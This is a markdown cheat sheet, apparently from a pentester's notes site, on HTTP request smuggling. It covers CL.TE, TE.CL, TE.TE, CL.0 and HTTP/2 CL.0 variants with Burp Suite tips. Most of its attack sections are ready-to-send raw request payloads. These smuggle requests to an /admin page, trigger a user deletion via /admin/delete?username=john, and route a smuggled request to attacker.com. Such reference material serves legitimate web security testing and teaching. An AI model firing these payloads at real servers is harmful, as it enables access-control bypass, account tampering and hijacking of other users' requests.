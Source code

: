 ```yaml
---
title: HTTP Request Smuggling
description: It is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users.
tags:
    - Web
refs:
    - https://portswigger.net/web-security/request-smuggling
date: 2023-03-12
draft: false
---
```


## Investigation

Assume the website has the following HTTP specification.

```bash
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

username=admin&password=admin
```

If we change “Content-Length” to “Transfer-Encoding” as follow, the data is sent in chunks to server. Each chunk consists of the chunk size in bytes (it is expressed in hexadecimal). 

The message is terminated with a chunk of size zero.

```bash
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

1d
username=admin&password=admin
0
```

<br />

## Exploitation Automatically

BurpSuite has the useful extension **“HTTP Request Smuggler”**.

<br />

## CL.TE (Content-Length . Transfer-Encoding)

The front-end server uses “Content-Length” header and the back-end server uses “Transfer-Encoding” header.

Send the following request twice.

```bash
POST /item HTTP/1.1
Host: example.com
Content-Length: 9
Transfer-Encoding: chunked

0

EVIL
```

If the response delays, we may be able to request smuggling.

### Exploitation

The front-end server uses the “Content-Length” header, so 

```bash
POST /item HTTP/1.1
Host: example.com
Content-Length: 9
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: example.com
Foo: xGET / HTTP/1.1
Host: example.com
```

<br />

## TE.CL (Transfer-Encoding . Content-Length)

The front-end server uses **“Trans-Encoding”** header and the back-end server uses **“Content-Length”** header.  
Send the following request twice.

If you use BurpSuite, check the **“Update Content-Length”** option is unchecked to avoid BurpSuite automatically changes the Content-Length depending on data sent.

```bash
POST  HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

4
EVIL
0
```

If the response delays, we may be able to request smuggling.

### Exploitation

Send the following request twice.

```bash
POST / HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

<br />

## TE.TE (Transfer-Encoding . Transfer-Encoding)

Both the front-end server and the back-end server support the **“Transfer-Encoding”** header but one of the servers can be induced not to process it by obfuscating the header.

```bash
Transfer-Encoding: xchunked

Transfer-Encoding: chunked
Transfer-Encoding: x
```

<br />

## CL.0 (Content-Length: 0)

If the target website ignores the Content-Length, you’re able to access the restricted page by request smuggling.

### 1. Prepare the Two Same Requests

If you're using Burp Suite, send the target request to **Repeater** twice.

### 2. Change the First Request to POST Request

### 3. Set the "Content-Length: 0" in the First Request

### 4. Set the "Connection: keep-alive" in the First Request

Now two requests should look like:

```sh
# Request 1
POST / HTTP/1.1
Host: example.com
Cookie: key=value
Connection: keep-alive
Content-Length: 0

GET /admin/delete?username=john
Foo: x

# -------------------------------------------------

# Request 2
GET / HTTP/1.1
Host: example.com
Cookie: key=value
Connection: close
```

### 5. Send Requests in Order

First off, if you're using Burp Suite, note that **enabling the "Update Content-Length" in the Burp Repeater option.**
The sequence is Request 1 -> Request 2.

<br />

## HTTP/2 CL.0 (Content-Length: 0)

### 1. Prepare Request

If you're using Burp Suite, note that **disable "Update Content-Length" and enable "Allow HTTP/2 ALPN override" in the Burp Repeater option.**

The request shoud look like:

```sh
POST / HTTP/2
Host: example.com
Content-Length: 0

GET /exploit HTTP/1.1
Host: attacker.com
Content-Length: 5

x=1
```

### 2. Send Request

Before doing, don't forget to **expand the Inspector on the right in the Repeater and select "HTTP/2".**  
Now send the request a few times.
